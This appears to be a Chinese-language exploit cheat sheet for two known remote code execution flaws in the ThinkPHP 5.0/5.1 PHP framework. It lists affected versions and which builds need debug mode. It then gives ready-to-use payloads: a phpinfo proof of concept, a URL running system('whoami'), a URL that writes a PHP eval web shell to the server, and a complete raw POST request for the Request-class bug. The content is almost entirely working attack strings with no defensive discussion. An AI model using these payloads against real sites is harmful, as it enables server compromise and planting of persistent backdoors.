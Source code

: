 # 目录

##### 一、控制器名引起的RCE

##### 二、核心类Requests引起的RCE

### 一、控制器名引起的RCE

##### 公开时间：  

2018/12/09  

##### 影响版本：  

ThinkPHP 5.0系列 < 5.0.23
ThinkPHP 5.1系列 < 5.1.31

poc:  

```
http://127.0.0.1/tp5022/public/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=1
```

exp:  

```
http://127.0.0.1/tp5022/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

shell:  

```
http://127.0.0.1/tp5022/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=a.php&vars[1][]=<?php eval(@$_POST['a']);?>#shell地址http://127.0.0.1/tp5022/public/a.php
```

### 二、核心类Requests引起的RCE  

##### 公开时间：  

2019/01/11

##### 影响版本：  

5.0全系列，具体如下  

```
版本名  是否可被攻击  攻击条件
5.0.0   否           无
5.0.1   否           无
5.0.2   否           无
5.0.3   否           无
5.0.4   否           无
5.0.5   否           无
5.0.6   否           无
5.0.7   否           无
5.0.8   是           无需开启debug
5.0.9   是           无需开启debug
5.0.10  是           无需开启debug
5.0.11  是           无需开启debug
5.0.12  是           无需开启debug
5.0.13  是           需开启debug
5.0.14  是           需开启debug
5.0.15  是           需开启debug
5.0.16  是           需开启debug
5.0.17  是           需开启debug
5.0.18  是           需开启debug
5.0.19  是           需开启debug
5.0.20  否           无
5.0.21  是           需开启debug
5.0.22  是           需开启debug
5.0.23  是           需开启debug
5.0.24  否           无
```

exp：  

```
版本号：5.0.8~5.0.19s=whoami&_method=__construct&filter&filter=system版本号：5.0.20~5.0.23_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami或_method=__construct&filter[]=system&server[REQUEST_METHOD]=whoami
```

具体请求包如下，留意下`Content-Type: application/x-www-form-urlencoded`  

```
POST /tp5022/public/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: think_var=zh-cn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

_method=__construct&filter[]=system&server[REQUEST_METHOD]=whoami
```

   

